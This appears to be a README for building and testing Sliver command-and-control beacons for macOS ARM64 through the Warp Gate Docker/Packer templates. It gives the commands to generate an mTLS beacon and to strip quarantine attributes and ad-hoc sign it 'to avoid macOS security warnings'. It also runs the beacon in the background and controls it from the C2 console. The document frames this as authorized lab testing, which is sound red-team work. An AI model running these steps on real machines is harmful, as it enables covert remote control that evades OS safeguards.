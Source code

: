 # Sliver Packer Build Documentation

## Overview

This document provides instructions for building and testing Sliver C2
framework beacons using the Warp Gate project's Packer templates, specifically
for macOS ARM64 targets.

## Prerequisites

- Docker installed and running
- Warp Gate project cloned and set up
- macOS target machine (ARM64 architecture)
- Network connectivity between Docker container and target machine

## Build Process

### 1. Build the Sliver Docker Image

First, build the Sliver container using Warp Gate's template system:

```bash
# Initialize the Sliver template
export TASK_X_REMOTE_TASKFILES=1
task template-init -- TEMPLATE_NAME=sliver

# Validate the template
task template-validate -- TEMPLATE_NAME=sliver

# Build the Docker image
task template-build \
  -- TEMPLATE_NAME=sliver \
     ONLY='sliver-docker.docker.*' \
     VARS="template_name=sliver"
```

### 2. Get Target Machine IP Address

On your macOS target machine, retrieve the IP address:

```bash
ifconfig | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1'
```

### 3. Start Sliver Server Container

Launch the Sliver container with exposed ports:

```bash
docker run -it --rm \
  -p 8888:8888 \
  -p 4444:4444 \
  --name sliver-test \
  sliver:latest \
  /bin/bash
```

### 4. Generate and Configure Beacon

Inside the container, start the Sliver server and generate a beacon:

```bash
# Start the Sliver server
/opt/sliver/sliver-server

# In the Sliver console, generate a macOS ARM64 beacon
# Replace IP_ADDRESS with your target machine's IP
sliver > generate beacon --mtls IP_ADDRESS:8888 --os mac --arch arm64 --save /tmp/beacon-macos-arm64

# Start the MTLS listener
sliver > mtls --lhost 0.0.0.0 --lport 8888
```

**Note:** If you encounter symbol obfuscation errors, use the `--skip-symbols` flag:

```bash
sliver > generate beacon --skip-symbols --mtls IP_ADDRESS:8888 --os mac --arch arm64 --save /tmp/beacon-macos-arm64
```

### 5. Deploy Beacon to macOS Target

On your macOS machine, copy the beacon from the container:

```bash
# Copy beacon from container to Desktop
docker cp $(docker ps -q -f ancestor=sliver:latest):/tmp/beacon-macos-arm64 ~/Desktop/beacon-macos-arm64

# Navigate to Desktop
cd ~/Desktop

# Make executable
chmod +x beacon-macos-arm64

# Remove quarantine attributes
xattr -c beacon-macos-arm64

# Sign the binary to avoid macOS security warnings
codesign --force --deep -s - beacon-macos-arm64

# Execute the beacon in background
./beacon-macos-arm64 &
```

### 6. Verify Connection

Back in the Sliver container console:

```bash
# List active beacons
sliver > beacons

# You should see output similar to:
# ID         Name                      Transport   Hostname    Username   Operating System   Last Check-In   Next Check-In
# ========== ========================= =========== =========== ========== ================== =============== ===============
# 62df50e1   CONSTITUTIONAL_EMPLOYEE   mtls        ouroboros   l          darwin/arm64       25s             36s

# Interact with the beacon using its ID
sliver > use BEACON_ID

# Test with a simple command
sliver (BEACON_NAME) > ls
```

## Cleanup

### On macOS Target

Find and terminate the beacon process:

```bash
# Find the beacon process
ps aux | grep beacon

# Kill the beacon process (replace PID with actual process ID)
kill -9 PID
```

## Troubleshooting

### Symbol Obfuscation Error

If you encounter:

```text
[!] rpc error: code = Unknown desc = exit status 1
```

This is typically due to missing dependencies for garble (Go obfuscator). The
root cause is that `git` is not installed in the container, which garble
requires to apply patches during the build process.

**Error details:**

```text
cannot get modified linker: failed to 'git apply' patches: exec: "git": executable file not found in $PATH
```

**Solutions:**

1. **Recommended:** Use `--skip-symbols` flag when generating beacons to bypass
   garble entirely
1. **Alternative:** Install git in the container (requires rebuilding the image
   with git package)
1. **For Packer template fix:** Add git installation to the Sliver Docker
   template provisioning scripts

### Permission Denied for Garble

If garble execution fails with permission denied:

```bash
# Check garble location and permissions
which garble
ls -la $(which garble)

# Ensure proper PATH configuration
export PATH=$HOME/.sliver/go/bin:$PATH
```

### Network Connectivity Issues

1. Verify Docker port mapping is correct
1. Ensure no firewall is blocking ports 8888 and 4444
1. Confirm the target IP address is reachable from the container:

   ```bash
   # From inside container
   ping TARGET_IP
   ```

## Security Considerations

⚠️ **WARNING**: This setup is for testing and development purposes only.

- Always use this in isolated, controlled environments
- Never deploy beacons on production systems without proper authorization
- Be aware of local security policies and regulations
- Clean up all test artifacts after use

## Integration with Warp Gate CI/CD

To automate Sliver builds in your pipeline:

```bash
# Push to GitHub Container Registry
task template-push \
  -- NAMESPACE=your-namespace \
     IMAGE_NAME=sliver \
     GITHUB_TOKEN=$(gh auth token) \
     GITHUB_USER=your-username
```

For local CI testing:

```bash
task run-image-builder-action -- TEMPLATE=sliver
```

## Known Issues

- **Garble dependency:** The current Sliver Docker image lacks `git`, which is
  required for garble (Go obfuscator) to function. Until the template is
  updated, use `--skip-symbols` when generating implants.

## Additional Resources

- [Sliver Documentation](https://github.com/BishopFox/sliver/wiki)
- [Warp Gate Project](https://github.com/CowDogMoo/warpgate)
- [Packer Documentation](https://www.packer.io/docs)
